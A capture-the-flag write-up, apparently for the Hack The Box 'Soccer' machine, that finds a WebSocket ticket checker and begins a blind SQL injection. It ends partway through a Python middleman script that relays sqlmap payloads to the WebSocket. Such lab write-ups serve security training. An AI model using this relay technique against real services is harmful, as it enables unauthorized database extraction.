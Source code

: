 
![image](https://user-images.githubusercontent.com/114166939/236665337-41813ccb-83a9-4b21-afbb-87557f6bd252.png)

When I opened this sub-domain, it looks the same as "soccer.htb" except for the "Match & Login & Signup" pages:

![image](https://user-images.githubusercontent.com/114166939/236665427-8a44ce54-87ba-4c05-80b8-61863384c564.png)

On the "Match" page find this line:

![image](https://user-images.githubusercontent.com/114166939/236665503-af6fc85c-0ad7-4bf7-a4e4-16a69d9e7564.png)

Okay! Let's register on the "Signup" page:

![image](https://user-images.githubusercontent.com/114166939/236665540-b3d4400e-1b90-42ec-b15e-f14cd9780aef.png)

```
mail: test@test.com
password: test
```

I'll log-in with this user.

Got the "check" directory:

![image](https://user-images.githubusercontent.com/114166939/236665742-f2424bb0-60d6-402b-bf28-c02a6bcdd827.png)

Let's see the HTML code of this page and see how it checks if I got the correct ticket.

I found the following JavaScript code:

![image](https://user-images.githubusercontent.com/114166939/236665872-da26448a-0b31-4bec-b228-797443a6ea10.png)

The first thing to notice is the first line in the code:
```JavaScript
var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
```
It communicates with a Web socket to check the ticket.

The same Web-Socket appeared at port 9091 during the nmap scan!

I'll search for a vulnerability in the user input that relates to a Web-Socket.

The first link when I search for "sqli web socket" is the following:

 "https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html".

There is a python script which is a MITM type that connects the "sqlmap" tool to the Web-Socket.

Let's try it!

I'll take the python script and modify the "ws_server" and "data" variables.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"ID":"%s"}' % message
```